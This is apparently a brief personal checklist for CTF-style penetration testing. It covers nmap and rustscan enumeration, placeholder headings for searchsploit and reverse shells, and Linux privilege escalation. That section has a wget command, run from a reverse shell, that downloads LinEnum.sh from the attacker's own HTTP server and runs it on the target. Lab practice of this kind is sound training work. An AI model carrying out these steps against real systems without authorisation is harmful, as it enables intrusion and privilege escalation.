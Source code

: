 ## Setting
#export ip 
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP. 
3. Check which ports are open. Take note of service running and versions(for searchsploit)
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh\
3.Host a python server python3 -m http.server 8080 to transfer the linEum.sh\
4.From the reverse shell, wget http://$myIP:8080 . to recieve linEum.sh\
5.Give access. chmod +x linEum and ./linEum\
 
